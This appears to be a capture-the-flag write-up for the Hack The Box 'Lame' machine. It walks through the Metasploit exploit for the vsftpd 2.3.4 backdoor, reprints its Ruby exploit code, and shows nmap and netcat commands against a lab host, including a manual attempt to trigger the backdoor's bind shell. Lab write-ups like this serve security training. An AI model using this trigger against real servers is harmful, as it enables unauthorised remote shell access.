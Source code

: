 .. _Lame Exploitation:

Exploitation
============

+-------------+----------------------+
|**Reference**|:ref:`netcat <netcat>`|
|             |                      |
|             |:ref:`nmap <nmap>`    |
|             |                      |
|             |:ref:`SearchSploit`   |
+-------------+----------------------+


Time to test the mettle of the exploits we uncovered. As before, we'll start from the top.

.. index:: SearchSploit


vsftpd 2.3.4
------------
Using the ``-x`` flag with `SearchSploit`, let's examine the source code of the `vsftpd` exploit:

.. code-block:: none

    kali@kali:~/HTB/Lame$ searchsploit -x 17491
      Exploit: vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)
          URL: https://www.exploit-db.com/exploits/17491
         Path: /usr/share/exploitdb/exploits/unix/remote/17491.rb
    File Type: Ruby script, ASCII text, with CRLF line terminators

This exploit is written for `Metasploit`. It's not terribly complex, and with a little effort we can piece together what the exploit does. The most important section of code is the ``exploit`` function. Let's break it down.

The first part of the function connects to the target FTP service, then grabs the banner:

.. code-block:: ruby

    def exploit
    [...]
            # Connect to the FTP service port first
            connect

            banner = sock.get_once(-1, 30).to_s
            print_status("Banner: #{banner.strip}")

With the connection established, the script sends a specially-crafted username:

.. code-block:: ruby

            sock.put("USER #{rand_text_alphanumeric(rand(6)+1)}:)\r\n")
            resp = sock.get_once(-1, 30).to_s
            print_status("USER: #{resp.strip}")

The ``#{rand_text_alphanumeric(rand(6)+1)}`` bit generates a string of one to six random alphanumeric characters. Let's substitute ``XXXX`` and see what the ``sock.put`` function is sending to the FTP server:

.. code-block:: none

    USER XXXX:)\r\n

Dissecting this, we can see that the script is issuing the ``USER`` command to authenticate with the remote FTP service. Next, it sends ``XXXX``, followed by ``:)`` (a smiley-face), followed by ``\r\n``, which tells the FTP server that the command is complete.

Based on this information, it looks like any username will do, as long as it's followed by the ``:)`` smiley.

After sending the crafted username, the script checks the response from the server. It checks whether the return value starts with ``530``, or any other response code besides ``331``, which would signal the failure of the exploit attempt:

.. code-block:: ruby

            if resp =~ /^530 /
                    print_error("This server is configured for anonymous only and the backdoor code cannot be reached")
                    disconnect
                    return
            end

            if resp !~ /^331 /
                    print_error("This server did not respond as expected: #{resp.strip}")
                    disconnect
                    return
            end

If the response code was ``331``, the script proceeds to send a randomly-generated password to the FTP service:

.. code-block:: ruby

            sock.put("PASS #{rand_text_alphanumeric(rand(6)+1)}\r\n")

But this password is irrelevant; simply by sending the appropriate ``USER`` and ``PASS`` commands, the exploit should have triggered the backdoor. In this case, the backdoor opens a bind shell on port 6200, so the script checks to see if that port is open:

.. code-block:: ruby

            # Do not bother reading the response from password, just try the backdoor
            nsock = self.connect(false, {'RPORT' => 6200}) rescue nil

If the port was opened successfully, the script connects and provides a command-line backdoor to the target:

.. code-block:: ruby

            if nsock
                    print_good("Backdoor service has been spawned, handling...")
                    handle_backdoor(nsock)
                    return
            end

            disconnect

    end

.. index:: nmap

Now that we know how the exploit works, we no longer need it. This exploit is simple enough that we can attempt it by hand. Recall that in our original port scan, port 6200 was not open. We can double-check this easily with `nmap`:

.. code-block:: none

    kali@kali:~/HTB/Lame$ nmap -Pn -p 6200 10.10.10.3
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-28 14:45 EDT
    Nmap scan report for 10.10.10.3
    Host is up.

    PORT     STATE    SERVICE
    6200/tcp filtered lm-x

    Nmap done: 1 IP address (1 host up) scanned in 2.14 seconds

.. index:: netcat

The port is marked as `filtered`, which means `nmap` could not tell whether the port was closed or open. Let's see if `netcat` can shed any light on the situation:

.. code-block:: none

    kali@kali:~/HTB/Lame$ nc -vn -w 3 10.10.10.3 6200
    (UNKNOWN) [10.10.10.3] 6200 (?) : Connection timed out

The port is refusing to connect. Now that we've proven the port to be closed (at least to the outside), let's see if we can exploit the service. We'll use `netcat` again, this time connecting to port 21 to send the appropriate exploit values:

.. code-block:: none

    kali@kali:~/HTB/Lame$ nc 10.10.10.3 21
    220 (vsFTPd 2.3.4)
    USER TEST:)
    331 Please specify the password.
    PASS WHATEVER

Having sent the username with the smiley-face, and an appropriate password, we can check port 6200 again to see if the backdoor was opened:

.. code-block:: none

    kali@kali:~/HTB/Lame$ nc -vn -w 3 10.10.10.3 6200
    (UNKNOWN) [10.10.10.3] 6200 (?) : Connection timed out

No such luck. It appears that either this is a patched version of `vsftpd`, or port 6200 is being blocked by the firewall. Either way, it's time to move to our next target.
